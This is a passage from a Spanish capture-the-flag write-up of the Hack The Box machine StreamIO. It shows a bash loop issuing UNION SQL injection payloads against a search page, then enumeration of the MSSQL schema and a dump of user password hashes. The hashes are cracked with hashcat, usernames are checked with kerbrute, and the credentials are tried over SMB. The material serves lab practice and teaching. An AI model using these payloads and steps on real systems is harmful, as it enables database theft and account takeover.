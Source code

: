 ```bash
while true
do
  echo -n "sql:> " && read query
  curl -sk -X POST 'https://watch.streamio.htb/search.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d "q=test' union select 1,$query-- -" | html2text | grep -vE '^$|3 Watch' | tr -d "*" | tail -n +4
done
```
Entonces haremos la query tal que
```bash
└─$ sudo rlwrap bash query.sh
QUERY: q=test' union select 1,<query> -- -
sql:> @@version,3,4,5,6
 Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) Sep 24 2019 13:48:23
Copyright (C) 2019 Microsoft Corporation Express Edition (64-bit) on Windows
Server 2019 Standard 10.0  (Build 17763: ) (Hypervisor) 
```
Asi que obtenemos el resto de datos:
- `sql:> DB_NAME(),3,4,5,6 from master..sysdatabases;` -> la base de datos actual es `STREAMIO`
- `sql:> name,id,4,5,6 from streamio..sysobjects where xtype='U';` sacar las bases de datos y sus ID obtenemos dos, pero la que nos interesa es `users` (id `901578250`)
- `sql:> name,3,4,5,6 from streamio..syscolumns where id=901578250;` salen 4, `id`, `is_staff`, `password`, `username`
- Los hashes `sql:> concat(username,':',password),3,4,5,6 from users;` que metemos en el archivo creds.txt

```bash
└─$ cat creds.txt 
 :d41d8cd98f00b204e9800998ecf8427e 
 admin :665a50ac9eaa781e4f7f04199db97a11 
 Alexendra :1c2b3d8270321140e5153f6637d3ee53 
 Austin :0049ac57646627b8d7aeaccf8b6a936f 
 Barbra :3961548825e3e21df5646cafe11c6c76 
 Barry :54c88b2dbd7b1a84012fabc1a4c73415 
```
Rompemos las contraseñas con hashcat: 
```bash
└─$ hashcat creds.txt /usr/share/wordlists/rockyou.txt --user -m 0 &>/dev/null

└─$ hashcat creds.txt /usr/share/wordlists/rockyou.txt --user -m 0 --show
d41d8cd98f00b204e9800998ecf8427e:
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
```
Para evitarnos la fuerza bruta metemos los usaurios en una lista de usaurios y comprobamos por kerberos cuales existen:
```bash
└─$ cat creds.txt | awk '{print $1}' FS=":" > users.txt

└─$ kerbrute userenum --dc 10.10.11.158 -d streamio.htb users.txt | grep "+"
2024/02/21 14:37:16 >  [+] VALID USERNAME:	yoshihide@streamio.htb
```
Como curiosidad, solo es valido el que estaba en mayusculas... cosas de los ctf. Vemos que contraseña tiene este usuario
```bash
└─$ cat creds.txt | grep "yoshi"
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
```
Intentamos registrarnos en varios servicios con dichas credenciales, pero no nos da valido...
```bash
└─$ nxc smb 10.10.11.158 -u "yoshihide" -p "66boysandgirls.."         
SMB    10.10.11.158   445  DC       [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) 
```